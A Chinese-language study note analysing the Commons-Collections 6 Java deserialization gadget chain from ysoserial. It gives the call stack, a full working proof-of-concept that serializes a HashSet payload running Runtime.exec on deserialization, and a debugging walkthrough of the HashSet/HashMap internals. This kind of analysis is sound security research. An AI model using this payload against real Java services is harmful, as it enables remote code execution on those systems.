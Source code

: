 ## CommonsCollections_6

本机环境：

JDK版本：jdk1.7u_51

CC版本：Commons-Collections 3.2.1

同样是对` HashMap#put()`的调用，在ysoserial中，由 `java.util.HashSet#readObject `。

于是调用栈：

```
Gadget chain:
	    java.io.ObjectInputStream.readObject()
            java.util.HashSet.readObject()
                java.util.HashMap.put()
                java.util.HashMap.hash()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections.map.LazyMap.get()
                            org.apache.commons.collections.functors.ChainedTransformer.transform()
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()
```

## POC&复现

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class CommonCollections6_set {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] { "calc.exe" }),
                new ConstantTransformer(1),
        };
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
        HashSet expSet = new HashSet(1);
        expSet.add(tme);
        outerMap.remove("keykey");
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expSet);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

![image-20220719153650471](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719153650471.png)





## 调式分析

### HashSet

HashSet 是一个无序的，不允许有重复元素的集合。HashSet 本质上就是由 HashMap 实现的。HashSet 中的元素都存放在 HashMap 的 key 上面，而 value 中的值都是统一的一个`private static final Object PRESENT = new Object();`。HashSet 跟 HashMap 一样，都是一个存放链表的数组。

在 HashSet 的 readObject 方法中，会调用其内部 HashMap 的 put 方法，将值放在 key 上。

![image-20220719154446945](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719154446945.png)

这里调用了map.put，其中map可以控制为HashMap，而传入的第一个参数e是用readObject取出来的，那么对应的我们就看看writeObject怎么写的：

![image-20220719155037971](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719155037971.png)

这里s可控，则e可控，我们需要控制传入map的keySet返回结果来控制变量。

我们的POC中只是简单的在 HashMap 之外嵌套了一层 HashSet，而yso的作者是这样调用的：

```java
HashSet hashset = new HashSet(1);
hashset.add("foo");
//利用反射获取我们的 HashSet 的 map 属性，因为我们要先获取到 map 才能对 map 的 key 进行修改
Field field = Class.forName("java.util.HashSet").getDeclaredField("map");
field.setAccessible(true);
HashMap hashset_map = (HashMap) field.get(hashset);
//修改我们 HashMap 中的 key 值为 hashset
Field table = Class.forName("java.util.HashMap").getDeclaredField("table");
table.setAccessible(true);
Object[] array = (Object[])table.get(hashset_map);

Object node = array[0];
if(node == null){
node = array[1];
}

Field key = node.getClass().getDeclaredField("key");
key.setAccessible(true);
key.set(node,tiedmap);
```

